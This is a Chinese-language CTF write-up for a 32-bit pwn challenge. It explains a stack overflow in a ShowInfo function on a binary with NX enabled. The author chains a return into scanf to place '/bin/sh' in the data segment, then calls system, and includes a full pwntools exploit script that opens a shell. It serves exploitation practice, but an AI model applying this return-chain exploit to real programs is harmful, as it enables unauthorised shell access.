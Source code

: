 这题溢出点应该是在ShowInfo里面。。  
开了NX选项，栈上啥也执行不了。。需要去找system

刚开始有点迷惘，system参数是指向字符串的地址，而非字符串本身
栈上数据可写，但栈上的地址根本不固定，咋办咯？  
曾宇圣说这不有个scanf吗。。然后就懂了

要先跳到scanf去把/bin/sh放到地址固定的任意地方，比如数据段  
再跳到system，而scanf多少字节才溢出呢？  
pattern.py测试出来是140  
  
进scanf之后可以用finish来迅速地跳到return（这是一个可以快速结束函数的好办法~~~  

```python
from pwn import *  
p=process('./pwn1')  
r=raw_input()  
scanf_addr=p32(0x80484f0)  
sys_addr=p32(0x80484b0)  
format_addr=p32(0x804888f)  
data_addr=p32(0x804a034)  
p.recvuntil('e:')  
p.sendline('a'*140+scanf_addr+sys_addr+format_addr+data_addr)  
p.recvuntil(':')  
p.sendline('1')  
p.sendline('/bin/sh\x00')  
p.interactive()  
```
刚开始写的是p.sendline('a'*140+scanf_addr+ '1'*4 +format_addr+data_addr)  
以为中间那个地址无所谓，先这样再去溢出scanf跳system即可  
然而这样子就会报0x31313131无法访问的错，因为jmp到scanf之后，栈顶这个东西就直接被当成scanf的eip去返回了  
改了之后，意外发现可以直接跳system没有问题（不然似乎需要跳add esp去抬栈的）。。这个似乎跟参数个数有关~  
莫名的就getshell了~开心  
